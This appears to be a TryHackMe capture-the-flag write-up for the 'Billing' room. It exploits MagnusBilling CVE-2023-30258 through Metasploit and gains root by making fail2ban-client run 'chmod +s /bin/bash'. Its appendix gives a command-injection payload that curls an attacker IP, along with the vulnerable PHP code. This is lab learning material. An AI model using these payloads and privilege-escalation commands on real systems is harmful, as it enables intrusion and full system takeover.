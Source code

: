 +++
tags = ["tryhackme", "easy"]
difficulty = "easy"
date = "2025-07-04"
description = "Billing Writeup"
featured = "/writeups/tryhackme/billing/1.png"
featuredalt = ""
featuredpath = "date"
linktitle = ""
title = "[EASY] Billing"
slug = "billing"
type = "post"
+++

[Link to the room!](https://tryhackme.com/room/billing)

**Note**: Bruteforcing is out of scope for this room.

## Enumeration

To get started, launch an Nmap scan to check for open ports:

```bash
nmap -T5 -sC -sV -oN nmap.log 10.10.125.241
```

![](/writeups/tryhackme/billing/1.webp)

Nmap shows that ports 22, 80 and 3306 are open. Furthermore, on port 3306 we have MariaDB running but we're unauthorized without credentials.

Accessing the web server on port 80 using the browser throws a redirect to a login page on /mbilling:

![](/writeups/tryhackme/billing/2.webp)

The website title says 'MagnusBilling', and checking the source code proves this name is somewhat relevant. Googling it shows that this is an open source VOIP billing solution. 

You'll also find that there's a vulnerability on versions 6 and 7 that allows for unauthenticated RCE (CVE-2023-30258 - the exact workings of the exploit are explored at the end of this writeup). It's also available on metasploit.

## Exploitation

Launching metasploit and searching for 'magnus' shows one result:

![](/writeups/tryhackme/billing/3.webp)

Select it:

![](/writeups/tryhackme/billing/4.webp)

And change the RHOSTS, then set your LHOST and LPORT. Launch and you'll get a shell:

![](/writeups/tryhackme/billing/5.webp)

Now you can get the user flag!

## Privilege Escalation

You can get a shell in meterpreter by typing the 'shell command', and then check what the current can run as sudo:

![](/writeups/tryhackme/billing/6.webp)

Although at the time of writing the fail2ban-client binary is not on GTFOBins, some light Googling shows it's an IDPS that bans IPs trying to perform brute-force attacks (now the message of the room's creator makes more sense)

Some resources suggest exploiting this service by modifying the config files, but in this case we do not possess write privileges over these. After some more Googling, I found [this resource](https://vulners.com/packetstorm/PACKETSTORM:189989).

It's a script that automates privilege escalation using the fail2ban-client, but we can actually pull the commands and perform the privesc manually:

```bash
sudo /usr/bin/fail2ban-client restart
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "chmod +s /bin/bash" 
sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
```

After restarting the service, banning the ip 127.0.0.1 (localhost) will execute ```chmod +s /bin/bash```, making bash an SUID binary and therefore granting us root!

![](/writeups/tryhackme/billing/7.webp)

## Appendix - Explanation of CVE-2023-30258

The vulnerability exploited is a blind command injection. It occurs on versions 6 through 7.3 (inclusive) of MagnusBilling, and it's actually found in the democ GET parameter inside /mbilling/lib/icepay/icepay.php.

A working payload for a PoC could be the following:

```txt
null;curl $IP; null
```

To test it, we can launch a HTTP server on our attacker host and access the following link:

```txt
http://10.10.125.241/mbilling/lib/icepay/icepay.php?democ=null;curl%2010.9.1.213/poc;null
```

We get a callback:

![](/writeups/tryhackme/billing/8.webp)

[This script](https://github.com/hadrian3689/magnus_billing_rce/blob/main/magnus_rce.py) shows how this exploit could be carried out without making use of Meterpreter.

Furthermore, if we actually dig deep into the 'magnusbilling' GitHub repo, we can check previous versions of the icepay.php and identify the vulnerable code snippet:

```php
    if (isset($_GET['democ'])) {
         if (preg_match('/^[a-f0-9]{32}$/', $_GET['democ'])) {
             exec("touch " . $_GET['democ'] . '.txt');
         } elseif ($_GET['democ'] == '') {
             exec("rm -rf *.txt");
         }
     }
```

The 'democ' parameter is passed unfiltered to 'exec'. A semicolon escapes the 'touch' command, and another one at the end of our payload escapes the '.txt':

```bash
touch null; curl $IP; null .txt
```